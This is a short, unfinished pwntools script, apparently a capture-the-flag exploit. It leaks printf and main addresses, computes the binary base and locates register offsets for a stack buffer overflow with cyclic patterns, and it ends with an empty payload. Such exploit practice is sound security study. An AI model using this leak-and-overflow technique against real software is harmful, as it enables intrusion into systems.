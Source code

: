 ```
p.recvuntil(b"At: ", drop = True)
leak_printf = p.recvline()
log.info(f"printf @ {leak_printf}")
p.recvuntil(b"$ ", drop=True)
#read(0, buf, 0x80), no overflow
payload = b'a'
p.sendline(payload)
p.recvuntil(b"At: ", drop=True)
leak_main = p.recvline()
log.info(f"main @ {leak_main}")

binary_base = hex(int(leak_main, 16) - int(0x725))
log.info(f"binary base @ {binary_base}")

p.recvuntil(b"$ ", drop=True)
# read (0, buf, 0x38), buf @ frame offset -20
# can overflow
# payload = cyclic(int(0x38))
# ebx @ gaaa
# ebp @ haaa
# esp @ jaaa
# eip @ laaa

ebx_offset = cyclic_find("gaaa")
ebp_offset = cyclic_find("haaa")
esp_offset = cyclic_find("jaaa")
eip_offset = cyclic_find("laaa")

payload = fit({

})
p.sendline(payload)
p.interactive()

```
